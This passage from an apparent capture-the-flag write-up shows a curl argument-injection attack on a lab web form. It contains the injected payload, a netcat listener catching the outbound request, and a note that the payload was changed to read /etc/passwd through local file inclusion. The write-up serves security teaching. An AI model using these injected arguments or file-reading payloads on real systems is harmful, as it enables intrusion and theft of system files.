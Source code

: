```c
Referer: http://10.10.114.88/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

url=http%3A%2F%2F10.8.0.2+-H+"asdf;"+-d+"foobar"


```

![](images/2024-09-20_11-03_url_parser.png)

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnkvp 80
listening on [any] 80 ...
connect to [10.8.0.2] from (UNKNOWN) [10.10.114.88] 42592
POST / HTTP/1.1
Host: 10.8.0.2
User-Agent: curl/7.81.0
Accept: */*
asdf\:
Content-Length: 6
Content-Type: application/x-www-form-urlencoded

foobar
```

As next step `Bushidosan` nailed the `Local File Inclusion (LFI)` by updating the payload to read `/etc/passwd` and with that we found a valid user called `aleks`.

```c
POST /index.php HTTP/1.1
Host: 10.10.114.88
Content-Length: 52
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://10.10.114.88
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.114.88/index.php
Accept-Encoding: gzip, deflate, br
```